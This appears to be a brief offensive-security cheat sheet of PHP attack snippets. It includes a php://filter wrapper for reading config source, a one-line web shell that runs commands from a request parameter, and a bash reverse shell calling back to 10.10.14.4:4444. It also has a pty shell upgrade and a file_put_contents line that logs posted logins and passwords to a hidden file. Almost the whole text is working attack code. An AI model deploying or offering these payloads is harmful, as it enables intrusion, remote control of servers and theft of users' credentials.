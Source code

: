 # PHP

# PHP filter

php://filter/convert.base64-encode/resource=config

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);

#PHP server

php -S 127.0.0.1:80
